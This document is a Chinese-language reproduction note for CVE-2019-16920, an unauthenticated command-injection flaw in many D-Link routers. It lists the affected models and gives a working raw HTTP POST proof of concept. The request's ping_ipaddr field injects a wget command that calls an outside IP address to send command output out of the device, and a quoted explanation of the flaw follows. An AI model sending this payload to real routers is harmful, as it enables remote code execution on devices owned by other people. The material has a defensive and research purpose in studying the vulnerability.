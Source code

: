 ## 一、漏洞简介

D-Link设备中出现未经身份验证的命令注入漏洞(FG-VD-19-117/CVE-2019-16920)，该漏洞可造成远程代码执行。

## 二、漏洞影响

DIR-655 ，DIR-866L，DIR-652，DHP-1565，DIR-855L，DAP-1533，DIR-862L，DIR-615，DIR-835，DIR-825等

## 三、复现过程

### poc

> 攻击者可以利用该漏洞将任意字符串发送到“PingTest”网关接口来实现命令注入。

```
POST /apply_sec.cgi HTTP/1.1
Host: 192.168.232.128
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 131
Connection: close
Referer: http://192.168.232.128/login_pic.asp
Cookie: uid=1234123
Upgrade-Insecure-Requests: 1

html_response_page=login_pic.asp&action=ping_test&ping_ipaddr=127.0.0.1%0awget%20-P%20/tmp/%20http://45.76.148.31:4321/?$(echo 1234)
```

“该漏洞始于一次错误的身份验证过程。当我们要进入管理页面时，需要执行登录操作。此时，我们会对`apply_sec.cgi`页面发出`POST`请求，其中包含一个操作`ping_test`。研究后发现，我们可通过参数`ping_ipaddr`执行命令注入。虽然响应是返回登录页面，但操作`ping_test`仍然执行了，我们通过参数`ping_ipaddr`注入的命令`echo 1234`成功执行，并将结果发送回我们的服务器。”

![image](.resource/%EF%BC%88CVE-2019-16920%EF%BC%89D-Link%20rce/media/7-20201014111607378.png)

